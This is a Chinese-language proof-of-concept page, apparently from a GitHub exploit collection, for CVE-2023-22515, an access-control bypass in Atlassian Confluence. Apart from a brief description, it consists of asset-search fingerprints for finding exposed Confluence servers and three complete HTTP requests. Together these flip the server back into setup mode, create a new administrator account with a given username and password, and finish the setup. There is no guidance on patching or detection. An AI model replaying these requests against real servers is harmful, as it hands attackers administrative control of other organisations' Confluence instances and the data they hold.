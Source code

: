 # 

# Atlassian Confluence server-info.action 登陆绕过漏洞 CVE-2023-22515

## 漏洞描述

Atlassian Confluence 是 Atlassian 开发的一款建基于网络企业维基 (collaboration software) 的软件。

Atlassian Confluence 数据中心和服务器存在漏洞，利用 /server-info.action 端点传递 bootstrapStatusProvider.applicationConfig.setupComplete 参数，使服务器处于安装未完成状态，以访问受限制的端点并创建未经授权的 Confluence 管理员帐户，登录 Confluence 实例后台。

## 漏洞影响

Atlassian Confluence

## 网络测绘

```
app="ATLASSIAN-Confluence"
```

```
title=="登录 - Confluence"
```

## 漏洞复现

登录页面

![image-20231115105058055](images/image-20231115105058055.png)

poc

```
GET /server-info.action?bootstrapStatusProvider.applicationConfig.setupComplete=false HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
```

![image-20231115105137183](images/image-20231115105137183.png)

```
POST /setup/setupadministrator.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
Content-Length: 126

username=bbvpe4mk&fullName=bbvpe4mk&email=bbvpe4mk@localhost&password=6wg6pm6sP123&confirm=6wg6pm6sP123&setup-next-button=Next
```

![image-20231115105146193](images/image-20231115105146193.png)

```
GET /setup/finishsetup.action HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded
X-Atlassian-Token: no-check
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Accept: */*
```

![image-20231115105154694](images/image-20231115105154694.png)
